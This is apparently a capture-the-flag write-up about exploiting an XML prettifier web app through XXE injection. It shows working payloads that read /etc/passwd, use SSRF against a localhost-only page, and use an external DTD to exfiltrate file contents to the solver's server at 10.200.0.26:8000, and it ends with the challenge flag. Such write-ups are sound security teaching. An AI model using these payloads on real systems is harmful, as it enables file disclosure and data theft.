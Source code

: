 # XML Prettifier

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information
to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere
on the web.

Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .

May the Packet be with you!

---

This challenge gave me a hard time. I knew what I need to do, I just couldn't figure out how exactly to do it.

This is the portal

![](portal.png)

The goal is to read **Notes** (`/notes`) which are, however, protected by the IP filter:

```
HTTP 403 Forbidden
IP filter is active, content is accessible only from localhost.
```

The first obvious choice is to try [XXE injection](https://portswigger.net/web-security/xxe). And indeed,
the web is vulnerable:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<a>&xxe;</a>

<a>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
```

So far so good. Let's try SSRF to read `/notes` and bypass the IP filter:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<a>&xxe;</a>

http://localhost:50000/notes:3:2:FATAL:PARSER:ERR_NAME_REQUIRED: StartTag: invalid element name
http://localhost:50000/notes:13:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 12 and head
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 9 and html
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag meta line 8
<string>:2:9:FATAL:PARSER:ERR_UNDECLARED_ENTITY: Entity 'xxe' failed to parse
```

This kinda works. Unfortunately, notes content is **not a valid XML**, so it can't be included into our XML.

I read a few articles about XXE, looking for some way how to get around this.

- [HLOverflow / XXE-study](https://github.com/HLOverflow/XXE-study)
- [XML external entity (XXE) injection: PortSwigger](https://portswigger.net/web-security/xxe)
- [XXE - XEE - XML External Entity: HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

All the possible solutions required to host somewhere my malicious DTD. However, the server **doesn't have access to the
internet**.

## Sidetrack: Reading filesystem

I was a bit desperate and started to look for some alternatives, hoping to find something interesting on the filesystem.

List of possibly interesting files to read:

- `/etc/passwd`
- `/etc/resolv.conf`
- `/etc/hosts`
- `/etc/init.d/apache2` (not valid XML)
- `proc/self/cwd` - points to current workdir of the running process
- `proc/self/maps` - memory layout, loaded libraries, see [maps.txt](maps.txt)
- `proc/net/route`
- `/opt/prettier/.gitignore`

I was able to figure out this Apache + WSGI + Python based app. Located in `/opt/prettier`. Didn't help me much though
as I was unable to read any source code or the notes file directly from the disk.

## Solution: The VPN 🤦‍♂️

After all I asked a friend for a hint, and I was told to **use my computer to host the malicious DTD**!
My machine is in VPN so the Prettifier server can access it. Of course!

Then it was easy. I used Python [http.server](https://docs.python.org/3/library/http.server.html) module to host my malicious DTD:

```
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.200.0.26:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

Don't forget to disable/configure your firewall.

Finally, send the request to Prettifier:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.200.0.26:8000/malicous.dtd"> %xxe;]>
```

The request failed (`Invalid URI`) but the printed error message contains the flag:

![](solved.png)

Flag is `FLAG{GG53-5U3w-VT8F-qB31}`



